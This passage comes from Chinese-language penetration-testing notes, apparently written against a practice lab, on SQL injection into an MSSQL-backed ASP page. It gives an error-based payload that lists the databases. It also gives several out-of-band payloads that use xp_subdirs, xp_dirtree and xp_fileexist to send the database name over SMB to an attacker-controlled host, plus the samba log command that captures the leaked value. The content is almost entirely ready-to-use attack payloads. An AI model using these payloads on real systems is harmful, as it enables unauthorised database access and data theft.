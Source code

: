     http://192.168.100.225/less-2.asp?id=1 and 1=(select quotename(name) from sys.databases for xml path(''))--+

    ​![image](assets/image-20240905174608-91ya7nb.png)​

## 数据外带

### SMB数据外带

利用xp_subdirs,xp_dirtree,xp_fileexist使用unc路径判断文件发起请求带出数据

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

tail -f /var/log/samba/log.smbd | grep "failed"

​![image](assets/image-20240905175704-y1um53q.png)​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_subdirs "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

​![image](assets/image-20240905175942-lsmztsq.png)​

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_dirtree "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

http://192.168.100.225/less-2.asp?id=1;declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_fileexist "//'%2B'192.168.100.235\\'%2b@a%2b'.txt"')--+

​![image](assets/image-20240905180110-ts0pa47.png)​
